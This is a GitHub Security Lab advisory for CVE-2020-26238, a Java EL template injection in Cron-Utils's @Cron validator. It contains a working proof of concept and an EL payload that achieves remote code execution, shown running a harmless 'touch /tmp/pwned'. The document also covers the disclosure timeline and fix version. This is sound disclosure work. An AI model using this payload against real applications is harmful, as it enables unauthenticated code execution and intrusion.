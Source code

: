<header class="post-header d-block mb-6">
      <div class="date text-mono f5 my-3">December 3, 2020</div>
      <h1 class="my-2 h00-mktg lh-condensed">GHSL-2020-212: Template injection in Cron-utils - CVE-2020-26238</h1>

      
      
      
      
      

      

      <a target="_blank" class="sc-frDJqD SgxRc d-inline-flex flex-row flex-items-center text-gray" href="https://github.com/pwntester">
        <img class="mr-3" src="https://avatars.githubusercontent.com/u/125701?s=35" height="35" width="35">
        <span>Alvaro Munoz</span>
      </a>
    </header>

    <main id="content" class="markdown-body" aria-label="Content">
      <h2 id="summary">Summary</h2>

<p>A Template Injection was identified in Cron-Utils enabling attackers to inject arbitrary Java EL expressions, leading to unauthenticated Remote Code Execution (RCE) vulnerability.</p>

<h2 id="product">Product</h2>

<p>Cron-Utils</p>

<h2 id="tested-version">Tested Version</h2>

<p>latest commit to the date of testing: b080eba</p>

<h2 id="details">Details</h2>

<h3 id="remote-code-execution---javael-injection">Remote Code Execution - JavaEL Injection</h3>

<p>If developers use the <code class="language-plaintext highlighter-rouge">@Cron</code> annotation to validate a user controlled Cron expression, attackers will be able to inject and run arbitrary Java Expression Language (EL) expressions.</p>

<p>Cron-Utils uses Java Bean Validation (JSR 380) custom constraint validators such as <a href="https://github.com/jmrozanec/cron-utils/blob/master/src/main/java/com/cronutils/validation/CronValidator.java"><code class="language-plaintext highlighter-rouge">CronValidator</code></a>. When building custom constraint violation error messages, it is important to understand that they support different types of interpolation, including <a href="https://docs.jboss.org/hibernate/validator/5.1/reference/en-US/html/chapter-message-interpolation.html#section-interpolation-with-message-expressions">Java EL expressions</a>. Therefore if an attacker can inject arbitrary data in the error message template passed to <code class="language-plaintext highlighter-rouge">ConstraintValidatorContext.buildConstraintViolationWithTemplate()</code>, they will be able to run arbitrary Java code. Unfortunately, it is common that validated (and therefore, normally untrusted) bean properties flow into the custom error message. In this case <code class="language-plaintext highlighter-rouge">CronValidator</code> includes the Cron expression being validated in the custom constraint error validation message if an exception is thrown while parsing the expression:</p>

<div class="language-java highlighter-rouge"><div class="highlight"><pre class="highlight"><code>    <span class="kd">public</span> <span class="kt">boolean</span> <span class="nf">isValid</span><span class="o">(</span><span class="nc">String</span> <span class="n">value</span><span class="o">,</span> <span class="nc">ConstraintValidatorContext</span> <span class="n">context</span><span class="o">)</span> <span class="o">{</span>
        <span class="k">if</span> <span class="o">(</span><span class="n">value</span> <span class="o">==</span> <span class="kc">null</span><span class="o">)</span> <span class="o">{</span>
            <span class="k">return</span> <span class="kc">true</span><span class="o">;</span>
        <span class="o">}</span>

        <span class="nc">CronDefinition</span> <span class="n">cronDefinition</span> <span class="o">=</span> <span class="nc">CronDefinitionBuilder</span><span class="o">.</span><span class="na">instanceDefinitionFor</span><span class="o">(</span><span class="n">type</span><span class="o">);</span>
        <span class="nc">CronParser</span> <span class="n">cronParser</span> <span class="o">=</span> <span class="k">new</span> <span class="nc">CronParser</span><span class="o">(</span><span class="n">cronDefinition</span><span class="o">);</span>
        <span class="k">try</span> <span class="o">{</span>
            <span class="n">cronParser</span><span class="o">.</span><span class="na">parse</span><span class="o">(</span><span class="n">value</span><span class="o">).</span><span class="na">validate</span><span class="o">();</span>
            <span class="k">return</span> <span class="kc">true</span><span class="o">;</span>
        <span class="o">}</span> <span class="k">catch</span> <span class="o">(</span><span class="nc">IllegalArgumentException</span> <span class="n">e</span><span class="o">)</span> <span class="o">{</span>
            <span class="n">context</span><span class="o">.</span><span class="na">disableDefaultConstraintViolation</span><span class="o">();</span>
            <span class="n">context</span><span class="o">.</span><span class="na">buildConstraintViolationWithTemplate</span><span class="o">(</span><span class="n">e</span><span class="o">.</span><span class="na">getMessage</span><span class="o">()).</span><span class="na">addConstraintViolation</span><span class="o">();</span>
            <span class="k">return</span> <span class="kc">false</span><span class="o">;</span>
        <span class="o">}</span>
    <span class="o">}</span>
</code></pre></div></div>

<h4 id="poc">PoC</h4>

<p>In order to reproduce this vulnerability you can use the following test code:</p>

<div class="language-java highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="kn">import</span> <span class="nn">com.cronutils.validation.Cron</span><span class="o">;</span>
<span class="kn">import</span> <span class="nn">com.cronutils.model.CronType</span><span class="o">;</span>
<span class="kn">import</span> <span class="nn">java.util.Set</span><span class="o">;</span>
<span class="kn">import</span> <span class="nn">javax.validation.ConstraintViolation</span><span class="o">;</span>
<span class="kn">import</span> <span class="nn">javax.validation.Validation</span><span class="o">;</span>
<span class="kn">import</span> <span class="nn">javax.validation.Validator</span><span class="o">;</span>
<span class="kn">import</span> <span class="nn">javax.validation.ValidatorFactory</span><span class="o">;</span>

<span class="kd">public</span> <span class="kd">class</span> <span class="nc">Main</span> <span class="o">{</span>

  <span class="kd">public</span> <span class="kd">static</span> <span class="kd">class</span> <span class="nc">Job</span> <span class="o">{</span>
    <span class="nd">@Cron</span><span class="o">(</span><span class="n">type</span> <span class="o">=</span> <span class="nc">CronType</span><span class="o">.</span><span class="na">SPRING</span><span class="o">)</span>
    <span class="kd">private</span> <span class="nc">String</span> <span class="n">cronExpression</span><span class="o">;</span>

    <span class="nc">String</span> <span class="nf">getCronExpression</span><span class="o">()</span> <span class="o">{</span>
      <span class="k">return</span> <span class="n">cronExpression</span><span class="o">;</span>
    <span class="o">}</span>

    <span class="kt">void</span> <span class="nf">setCronExpression</span><span class="o">(</span><span class="nc">String</span> <span class="n">cronExpression</span><span class="o">)</span> <span class="o">{</span>
      <span class="k">this</span><span class="o">.</span><span class="na">cronExpression</span> <span class="o">=</span> <span class="n">cronExpression</span><span class="o">;</span>
    <span class="o">}</span>
  <span class="o">}</span>

  <span class="kd">public</span> <span class="kd">static</span> <span class="kt">void</span> <span class="nf">main</span><span class="o">(</span><span class="nc">String</span><span class="o">[]</span> <span class="n">args</span><span class="o">)</span> <span class="o">{</span>
    <span class="nc">Job</span> <span class="n">job</span> <span class="o">=</span> <span class="k">new</span> <span class="nc">Job</span><span class="o">();</span>
    <span class="n">job</span><span class="o">.</span><span class="na">setCronExpression</span><span class="o">(</span><span class="s">"java.lang.Runtime.getRuntime().exec('touch /tmp/pwned'); // 4 5 [${''.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('js').eval(validatedValue)}]"</span><span class="o">);</span>

    <span class="nc">ValidatorFactory</span> <span class="n">factory</span> <span class="o">=</span> <span class="nc">Validation</span><span class="o">.</span><span class="na">buildDefaultValidatorFactory</span><span class="o">();</span>
    <span class="nc">Validator</span> <span class="n">validator</span> <span class="o">=</span> <span class="n">factory</span><span class="o">.</span><span class="na">getValidator</span><span class="o">();</span>

    <span class="nc">Set</span><span class="o">&lt;</span><span class="nc">ConstraintViolation</span><span class="o">&lt;</span><span class="nc">Job</span><span class="o">&gt;&gt;</span> <span class="n">constraintViolations</span> <span class="o">=</span> <span class="n">validator</span><span class="o">.</span><span class="na">validate</span><span class="o">(</span><span class="n">job</span><span class="o">);</span>
    <span class="nc">String</span> <span class="n">errmsg</span> <span class="o">=</span> <span class="n">constraintViolations</span><span class="o">.</span><span class="na">iterator</span><span class="o">().</span><span class="na">next</span><span class="o">().</span><span class="na">getMessage</span><span class="o">();</span>
    <span class="nc">System</span><span class="o">.</span><span class="na">out</span><span class="o">.</span><span class="na">println</span><span class="o">(</span><span class="n">errmsg</span><span class="o">);</span>
  <span class="o">}</span>
<span class="o">}</span>
</code></pre></div></div>

<p>If the cron-utils’ <code class="language-plaintext highlighter-rouge">@Cron</code> annotation is used to validate an user controlled expression, it will allow an attacker to execute arbitrary Java code.</p>

<p>In order to trigger an exception and keep the payload lower case and allow whitespaces, we need to use a payload in the form of:</p>

<div class="language-java highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="n">java</span><span class="o">.</span><span class="na">lang</span><span class="o">.</span><span class="na">Runtime</span><span class="o">.</span><span class="na">getRuntime</span><span class="o">().</span><span class="na">exec</span><span class="o">(</span><span class="err">'</span><span class="n">touch</span> <span class="o">/</span><span class="n">tmp</span><span class="o">/</span><span class="n">pwned</span><span class="err">'</span><span class="o">);</span> <span class="c1">// 4 5 [${''.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('js').eval(validatedValue)}]");</span>
</code></pre></div></div>

<p>Where the cron fields are:</p>

<ol>
  <li><code class="language-plaintext highlighter-rouge">java.lang.Runtime.getRuntime().exec('touch</code></li>
  <li><code class="language-plaintext highlighter-rouge">/tmp/pwned');</code></li>
  <li><code class="language-plaintext highlighter-rouge">//</code></li>
  <li><code class="language-plaintext highlighter-rouge">4</code></li>
  <li><code class="language-plaintext highlighter-rouge">5</code></li>
  <li><code class="language-plaintext highlighter-rouge">[${''.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('js').eval(validatedValue)}]");</code></li>
</ol>

<p>Which will result in an exception such as:</p>

<div class="language-plaintext highlighter-rouge"><div class="highlight"><pre class="highlight"><code>Failed to parse 'java.lang.Runtime.getRuntime().exec('touch /tmp/pwned'); // 4 5 [java.lang.UNIXProcess@28a53635]'. Invalid chars in expression! Expression: JAVA.LANG.RUNTIME.GETRUNTIME().EXEC('TOUCH Invalid chars: JAVA.LANG.RUNTIME.GETRUNTIME().EXEC('TOUCH
</code></pre></div></div>

<p>Note that the sixth component has been evaluated to <code class="language-plaintext highlighter-rouge">java.lang.UNIXProcess@28a53635</code> proving that the process ran.</p>

<h4 id="impact">Impact</h4>

<p>This issue leads to Remote Code execution</p>

<h2 id="cve">CVE</h2>

<ul>
  <li>CVE-2020-26238</li>
</ul>

<h2 id="coordinated-disclosure-timeline">Coordinated Disclosure Timeline</h2>

<ul>
  <li>11/05/2020: Report sent to jmrozanec@gmail.com</li>
  <li>11/21/2020: Issue is fixed in version 9.1.3</li>
</ul>

<h2 id="resources">Resources</h2>

<ul>
  <li><a href="https://github.com/jmrozanec/cron-utils/security/advisories/GHSA-pfj3-56hm-jwq5">https://github.com/jmrozanec/cron-utils/security/advisories/GHSA-pfj3-56hm-jwq5</a></li>
  <li><a href="https://github.com/jmrozanec/cron-utils/issues/461">https://github.com/jmrozanec/cron-utils/issues/461</a></li>
</ul>

<h2 id="credit">Credit</h2>

<p>This issue was discovered and reported by GHSL team member <a href="https://github.com/pwntester">@pwntester (Alvaro Muñoz)</a>.</p>

<h2 id="contact">Contact</h2>

<p>You can contact the GHSL team at <code class="language-plaintext highlighter-rouge">securitylab@github.com</code>, please include a reference to <code class="language-plaintext highlighter-rouge">GHSL-2020-212</code> in any communication regarding this issue.</p>

 